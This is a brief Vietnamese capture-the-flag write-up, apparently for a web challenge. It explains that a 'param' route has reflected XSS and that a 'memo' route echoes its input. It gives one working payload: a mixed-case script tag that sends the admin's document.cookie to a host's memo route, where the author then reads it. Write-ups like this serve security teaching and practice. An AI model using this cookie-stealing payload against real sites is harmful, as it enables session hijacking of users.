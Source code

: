 ban đầu đọc hơi lú nhưng mà ta có thể thấy được có 2 route chính là memo?memo=any
thì sẽ hiển thị ra nội dung any trong đó
còn route param?param=any thì bị dính lỗi XSS cơ bản
bây giờ ý tưởng là sẽ gửi cookie của admin vào trong log của route memo
payload : <ScriPt>location.href="http://hostname:port/memo?memo="+document.cookie</ScriPt>
Và vào lại route kia để nhận cookie được render ra thôi
Flag: có làm thì hehe :v